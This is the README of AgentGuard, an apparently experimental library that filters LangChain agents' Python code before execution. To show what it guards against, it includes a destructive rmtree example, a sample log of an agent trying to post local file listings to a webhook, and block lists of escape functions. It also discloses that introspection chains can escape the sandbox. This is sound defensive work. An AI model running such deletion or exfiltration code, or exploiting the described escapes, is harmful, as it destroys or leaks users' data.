

# 🛡️ AgentGuard

> **Experimental security guardrails for LangChain agent code execution.**

> [!WARNING]
> **Alpha / Proof of Concept** — This project is an experimental research tool, not a production-grade security boundary. The current in-process execution model has [known limitations](#-known-limitations). Use it as an additional layer of defense, not as your only one.

[](https://github.com/Thomas-LEON/agentguard/actions)
[](https://pypi.org/project/securellm-agentguard/)
[](https://www.python.org)
[](LICENSE)
[](https://github.com/astral-sh/ruff)

---

## 🤔 The Problem

Modern LangChain agents can **generate and execute Python code** autonomously. A single malicious prompt or hallucination can lead an agent to generate destructive code:

```python
# An agent asked to "clean up temp files" might generate:
import os
import shutil
shutil.rmtree("/var/data/users")  # 💀 Oops.
```

There is no native guardrail in LangChain to prevent this. **AgentGuard adds pre-execution filters to catch obvious dangerous patterns before they run.**

---

## ✅ What It Does

AgentGuard wraps your agent's code execution tool in a **3-layer validation pipeline**. Before any LLM-generated code runs, it must pass through all three layers:



If any layer blocks the code, the agent receives a **descriptive error message** and can **self-correct** — instead of crashing or failing silently.

---

## 🛡️ How It Works in Action

```text
> Entering new AgentExecutor chain...

Thought: I need to read the local files and send them to a webhook.
Action: safe_python_repl
Action Input:
import os
import requests
files = os.listdir('.')
requests.post('https://webhook.site/test', json={"files": files})

Observation: [AgentGuard | AST Validator] 🔴 BLOCKED — Forbidden import
detected: 'os'. Rewrite the code without the forbidden operation.

Thought: I am not allowed to use the 'os' module. I cannot fulfill this
request as it requires system access.
Final Answer: 🛑 I am restricted from accessing the local file system or
sending data to external webhooks due to security policies.
```

---

## 🚀 Quick Start

```bash
pip install securellm-agentguard
```

```python
from agentguard import SafePythonREPLTool, SecurityPolicy

# Define your security rules
policy = SecurityPolicy(
    allowed_modules=["pandas", "json", "math"],
    allowed_domains=["api.github.com"],
    use_semantic_judge=False,  # Set True + pass judge_llm for Layer 3
)

safe_repl = SafePythonREPLTool(policy=policy)

# Use it in your LangChain agent instead of PythonREPLTool
# agent = create_react_agent(llm=your_llm, tools=[safe_repl])
```

**With Layer 3 (optional — any LangChain-compatible LLM):**

```python
from langchain_google_genai import ChatGoogleGenerativeAI  # or ChatOpenAI, ChatAnthropic, etc.

judge_llm = ChatGoogleGenerativeAI(model="gemini-2.0-flash")
safe_repl = SafePythonREPLTool(policy=policy, judge_llm=judge_llm)
```

> **Note:** Layer 3 works with any `BaseChatModel` — Gemini, GPT-4, Claude, Mistral, Ollama, etc.

---

## ⚙️ SecurityPolicy Options

| Parameter | Type | Default | Description |
|---|---|---|---|
| `allowed_modules` | `list[str]` | `["math", "json", ...]` | Whitelisted Python modules |
| `allowed_domains` | `list[str]` | `[]` (block all) | Whitelisted network domains |
| `use_semantic_judge` | `bool` | `True` | Enable LLM semantic analysis |
| `execution_timeout` | `int` | `10` | Max execution seconds |

---

## 🔒 Security Layers in Detail

### Layer 1 — AST Static Validator

Uses Python's native `ast` module to parse the code **without executing it**.

**Blocks:**
- Any `import` not explicitly whitelisted in `allowed_modules`
- `from X import Y` style imports of non-whitelisted modules
- Dangerous built-in calls: `exec`, `eval`, `compile`, `open`, `__import__`
- Common escape vectors: `getattr`, `setattr`, `delattr`, `globals`, `locals`

**Speed:** ~0.1ms — no I/O, no network, pure AST traversal.

### Layer 2 — Network Filter

Uses regex patterns to detect outbound network calls and validates target domains against the whitelist.

**Detects:**
- `requests.get/post/put/delete/patch/head`
- `httpx` and `aiohttp` calls
- `urllib.request.urlopen` and `urlretrieve`
- Raw `socket.connect()` calls
- Bare URL literals (`https://...`)

> **Note:** This is a heuristic regex-based filter, not an OS-level network control. Sophisticated obfuscation may evade it — Layer 3 exists to catch what Layers 1 & 2 miss.

### Layer 3 — Semantic Judge (LLM)

For subtle attacks that evade static analysis (e.g. a loop that deletes files one-by-one), the code is sent to a fast LLM (e.g. `gemini-2.0-flash`) with a strict binary prompt.

**Verdict:** Only code classified as `SAFE` passes. Anything else (including ambiguous responses) is blocked — **fail-closed by design**.

> **Note:** The LLM judge is a probabilistic defense — it can be wrong. It also sends code to a third-party API. Use it as an additional signal, not as a guarantee.

### Restricted Execution

Code that passes all 3 layers runs in a restricted in-process environment:
- **Safe builtins only** — `print`, `len`, `range`, etc. (no `exec`, `eval`, `open`)
- **Controlled `__import__`** — only policy-whitelisted modules can be imported
- **stdout capture** — `print()` output is returned to the agent
- **Timeout enforcement** — configurable via `execution_timeout`

---

## ⚠️ Known Limitations

This is an **alpha-stage** research project. The following limitations are known:

| Limitation | Detail |
|---|---|
| **In-process execution** | Code runs via `exec()` in a restricted builtins dict, not in a separate process or container. A determined attacker could escape via object introspection chains on authorized modules. |
| **Thread-based timeout** | Python threads cannot be forcibly killed. After a timeout, the code may continue running in the background. |
| **Regex-based network filter** | The network filter is heuristic. Obfuscated URLs or dynamically-constructed network calls will not be caught by Layer 2. |
| **LLM judge is probabilistic** | The semantic judge can be wrong, manipulated, or bypassed. It also sends code to a third-party API. |

**Planned for v0.2:** Subprocess/container-based isolation with OS-level controls, adversarial test suite, and killable execution.

---

## 📁 Project Structure

```
agentguard/
├── agentguard/
│   ├── __init__.py              # Public API exports
│   ├── policy.py                # SecurityPolicy (Pydantic model)
│   ├── exceptions.py            # SecurityBlockedError
│   ├── validators/
│   │   ├── ast_validator.py     # Layer 1: Static AST analysis
│   │   └── network_filter.py    # Layer 2: Network domain filter
│   ├── judges/
│   │   └── gemini_judge.py      # Layer 3: LLM semantic judge
│   └── tools/
│       └── langchain_tool.py    # SafePythonREPLTool (LangChain BaseTool)
├── tests/                       # Pytest suite (mocked LLM for Layer 3)
├── examples/
│   ├── basic_agent.py           # Simple agent + AgentGuard demo
│   └── threat_intel_demo.py     # Threat analysis agent demo
├── pyproject.toml               # Poetry config + metadata
├── .github/workflows/ci.yml     # GitHub Actions CI
└── README.md
```

---

## 🗺️ Roadmap

- [x] 3-layer validation pipeline (AST + Network + Semantic Judge)
- [x] LangChain `BaseTool` integration
- [x] Restricted execution with safe builtins
- [x] Timeout enforcement
- [x] GitHub Actions CI
- [x] PyPI Publication — `pip install securellm-agentguard`
- [ ] **Process/Container Isolation** — replace in-process exec with a killable subprocess or ephemeral container
- [ ] **Adversarial Test Suite** — sandbox escape tests, obfuscation tests, resource abuse tests
- [ ] **Logging & Audit Trail** — structured logs of every blocked/allowed execution
- [ ] **Plugin System** — custom validator layers via a simple interface
- [ ] **LangSmith Integration** — trace security events in LangSmith

---

## 🤝 Contributing

Contributions are welcome! Please read [CONTRIBUTING.md](CONTRIBUTING.md) first.

## 🔐 Security

Found a vulnerability? Please read [SECURITY.md](SECURITY.md) for responsible disclosure instructions.

## 📄 License

MIT — see [LICENSE](LICENSE).

---

*Built by [Thomas LEON](https://www.linkedin.com/in/thomas-leon-893316262/) · Emerging Technologies & Threat Intelligence*
